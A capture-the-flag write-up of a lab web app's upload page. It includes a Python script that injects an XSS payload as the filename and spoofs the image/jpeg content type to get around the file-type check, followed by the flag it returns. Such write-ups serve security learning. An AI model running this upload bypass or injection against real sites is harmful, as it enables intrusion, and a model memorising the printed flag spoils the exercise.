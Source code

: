# http://192.168.99.100/index.php?page=upload

i tried uploading several files to this page via browser and noticed that it only accepts `jpg` images

it also prints the filename once the upload is successfull

here is a little python script i wrote

```py
#!/usr/bin/env python3

import requests

url = 'http://192.168.99.100/?page=upload'

f = { 
        'uploaded':                                 # .. from <form> element in html
            ("<script>alert('xss')</script>",       # file name
                'file_contents',                    # actual file contents, normaly `open(fn, 'rb')`
                'image/jpeg')                       # content-type
        }

d = {
        'Upload': 'Upload'                          # from <form> element in html
        }

r = requests.post(url, files=f, data=d)
print(r.text)
```

upon running the script we get the flag

```sh
e1z2r10p4% python3 upload.py | grep flag
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/script> succesfully uploaded.</pre>
```


the filename i provided is not valid in unix environments because of the `/` in `</script>`, 

if it was, this could be an attack vector, its possible that the filename is valid on windows, but i'm not 100% on this

i think the lesson to be learned here is that the actual contents of the file do not match the `content-type` meta

content-type is set to `image/jpeg` but we're still able to upload files with arbitrary content


#### we have the flag `46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`

nice
